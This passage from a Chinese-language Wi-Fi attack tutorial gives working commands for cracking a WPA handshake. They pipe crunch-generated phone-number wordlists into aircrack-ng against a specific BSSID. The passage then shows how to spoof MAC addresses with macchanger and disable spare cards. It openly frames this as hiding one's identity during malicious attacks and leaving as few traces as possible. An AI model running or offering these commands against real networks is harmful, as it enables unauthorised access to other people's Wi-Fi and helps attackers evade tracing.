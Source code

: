 我们可以将 `crunch` 的输出作为 `aircrack-ng` 的输入，使用它生成的密码作为我们的单词列表。 这里我们使用 `crunch` 特殊规则字符 `%` 来表示数字。 此命令尝试破解 10 位电话号码的 WPA 密码（使用 crunch 即时生成的 102GB 的号码）：

```bash
# 我们也可以使用 -t "@^%,"  使用模式 '@' 替换小写 ',' － 替换大写
# '%' －替换数字以及 '^' － 替换特殊字符
# *************** 不要忘记最后的 '-'
crunch 10 10 -t "%%%%%%%%%%" | aircrack-ng -a2 capture.cap -b 58:98:35:CB:A2:77 -w -
```

## 利用 `macchanger` 保护你的个人信息

每当您使用 Wi-Fi 进行任何远程恶意攻击时，最好将你 Wi-Fi 设备的 MAC 地址进行伪装，避免被人通过网络流量里的设备信息找到你。

这是利用 `macchanger` 的一个小尝试：

```bash
# 下载 MAC changer
sudo apt-get install macchanger

# 关闭设备
sudo ifconfig wlan0 down

# 改变 mac
# -A 为有效的供应商分配一个随机的MAC w/a
# -r 让它真正随机
# -p 将其恢复到原始的硬件MAC
sudo macchanger -A wlan0

# 启动设备
sudo ifconfig wlan0 up
```

如果你有多张无线网卡，最好把所有的设备都改一遍。 或者当你尝试抓取 handshake 时干脆把不用的设备都关掉，尽可能少地留下痕迹。 请注意，重启后伪装的设备信息会恢复。
